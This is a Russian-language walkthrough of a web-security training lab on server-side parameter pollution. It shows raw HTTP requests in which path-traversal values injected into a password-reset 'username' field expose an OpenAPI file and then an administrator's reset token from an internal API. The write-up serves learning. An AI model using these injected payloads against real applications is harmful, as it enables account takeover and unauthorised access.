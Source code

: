 
## Дано

#### Требуемые знания
Чтобы решить эту лабораторию, вам нужно знать:

- Как определить, включен ли пользовательский ввод в путь URL-адреса на стороне сервера или строку запроса.
- Как использовать последовательности прохождения пути, чтобы попытаться изменить запрос на стороне сервера.
- Как открыть документацию API.

## Задача

войти в систему как `administrator` и удалить `carlos`

# Разведка


- При ответе видим указание скрипта из файла js fgorgotPassword, где есть путь `/forgot-password?passwordResetToken=${resetToken}` - для сброса пароля

- Формат запроса на смену пароля
```
POST /forgot-password HTTP/2
Host: 0a57007a03910d878062bc5a004200a4.web-security-academy.net
Cookie: session=ap2WUdUM9FMgpW5HpahXQ2KM3b9wQnTG
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a57007a03910d878062bc5a004200a4.web-security-academy.net/forgot-password
Content-Type: x-www-form-urlencoded
Content-Length: 60
Origin: https://0a57007a03910d878062bc5a004200a4.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Sec-Gpc: 1
Priority: u=0
Te: trailers

csrf=pmwFBzcNJq1KLGEbAZGBxHKIJmUMXvEb&username=administrator
```

- Пробуем спец символы 
	`#` - комментирует всё то что после
	`&` - оператор и, объединяет запрос
	`=` - оператор присваивания 
Загрязнение работает судя по ответам

## Атака

Пробуем узнать про API при помощи загрязнения
- Проверка на обход пути работает `username=../../../../administrator`
Ответ
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Not Found</title>
</head>
<body>
    <h1>Not found</h1>
    <p>The URL that you requested was not found.</p>
</body>
</html>
```

- Можем предположить что нам надо пробрутить запрос чтоб найти апи документацию
Запрос
```
POST /forgot-password HTTP/2
Host: 0a57007a03910d878062bc5a004200a4.web-security-academy.net
Cookie: session=ap2WUdUM9FMgpW5HpahXQ2KM3b9wQnTG
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a57007a03910d878062bc5a004200a4.web-security-academy.net/forgot-password
Content-Type: x-www-form-urlencoded
Content-Length: 72
Origin: https://0a57007a03910d878062bc5a004200a4.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Sec-Gpc: 1
Priority: u=0
Te: trailers

csrf=pmwFBzcNJq1KLGEbAZGBxHKIJmUMXvEb&username=../../../../administrator
```
administartor - payload
- Нашли ток `api` - ответ 404 `Invalid route. Please refer to the API definition`
- Нашли по `username=../../../../openapi.json%23%`
Ответ
```
{
  "openapi": "3.0.0",
  "info": {
    "title": "User API",
    "version": "2.0.0"
  },
  "paths": {
    "/api/internal/v1/users/{username}/field/{field}": {
      "get": {
        "tags": [
          "users"
        ],
        "summary": "Find user by username",
        "description": "API Version 1",
        "parameters": [
          {
            "name": "username",
            "in": "path",
            "description": "Username",
            "required": true,
            "schema": {
              ...
            }
```

- "This version of API only supports the email field for security reasons" - обходим версию
	`username=../../v1/users/administrator/field/passwordResetToken%23`
```
{
  "type": "passwordResetToken",
  "result": "2q4gknen4nngdo53zl8iht0jz8wneu1h"
}
```